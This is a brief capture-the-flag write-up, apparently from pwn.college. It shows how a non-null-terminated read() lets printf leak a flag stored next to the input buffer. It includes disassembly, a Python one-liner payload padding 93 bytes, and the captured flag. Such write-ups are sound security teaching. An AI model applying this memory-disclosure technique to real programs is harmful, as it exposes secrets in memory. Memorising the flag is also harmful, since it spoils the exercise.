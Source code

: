 In this challenge the program reads the flag but never prints it 

It also accepts user input using `read()` syscall which does not terminate with null character 

The flag read from the file is stored after the user input

So if the user input is long enough to be just before the flag then the `printf` function that was only meant to print the user input will also print the flag because print function prints until it encounters a null character

From objdump 

    0x0000000000001750 <+149>:   mov    rax,QWORD PTR [rbp-0x178]                                                                                                                                                   
    0x0000000000001757 <+156>:   mov    edx,0x100                                                                                                                                                                   
    0x000000000000175c <+161>:   mov    rsi,rax                                                                                                                                                                     
    0x000000000000175f <+164>:   mov    edi,ecx                                                                                                                                                                     
    0x0000000000001761 <+166>:   call   0x1140 <read@plt>    

The flag will put at address `rbp - 0x178` 

The user input is at this location 

    0x7ffd57907cd0: 0x000a4141 

The offset is 93

The exploit 

    python -c 'import sys, time; sys.stdout.buffer.write(b"100"); time.sleep(1); sys.stdout.buffer.write(b"A"*93);'

The flag 

    You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwn.college{klEA_AR6286GAfrFa8lwnHOqoRx.0FOwMDL5kzM1czW}
